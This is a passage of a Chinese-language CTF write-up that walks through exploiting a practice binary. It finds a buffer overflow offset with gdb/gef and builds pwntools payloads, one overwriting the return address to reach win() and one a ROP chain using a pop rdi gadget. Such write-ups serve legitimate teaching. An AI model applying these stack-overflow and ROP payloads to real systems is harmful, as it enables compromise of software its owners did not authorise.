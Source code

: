 ### gdb + gef
- 透過 gdb ，確認一下 local_c 的 buffer 。
```
$ pattern create 0x10
$ pattern search 0x6161616261616161

gef➤  patter search 0x6161616261616161
[+] Searching for '6161616162616161'/'6161616261616161' with period=8
[+] Found at offset 4 (little-endian search) likely
```
- 再嘗試寫 payload ，試試看是否可以順利跳到 `win()`
:::success
💡 payload_2 - Overwrite return address
``` python
payload_2 = b'a'*12 + p64(win_addr)
```
:::

- 答案是 so close !!，那我們離 flag 還有多遠呢?
``` kali
╰─ python3 test.py
[+] Starting program './calculator': Done
[*] Switching to interactive mode
So close !!
[*] Got EOF while reading in interactive
```

## Basic_ROP
### 先了解條件，再去找合適的 gadget
- **條件:** `win(para_1)` 的 `para_1 = 0xc0febab3`
- 但是在透過工具找 gadget 以前，有一個 function 叫做 `gadget()`，應該蠻故意的吧。
- 所以，看一下內容:
    ``` c
    void gadget(void)

    {
      return;
    }
    ```
- Weeeeee，有用的 gadget 來了。
- 雖然好像還是看 assembly code 比較好理解。
![螢幕擷取畫面 2024-10-01 150646](https://hackmd.io/_uploads/SkgKZ7KRC.png)

:::success
💡 payload_3 - Gadget & Parameter
``` python
payload_3 = b'a'*12 + p64(pop_rdi_ret) + p64(parameter)
```
:::
---

### 獲得了3個重要拼圖，然後呢，怎麼放
- 很怒，因為 payload 一直沒寫好，所以暴力亂塞看看?
    - 並沒有，還是有認真思考過，**請看下方思考筆記** ヾ(´ε`ヾ)
    ![Notes_241003_202410](https://hackmd.io/_uploads/S1j4TWnAC.jpg)
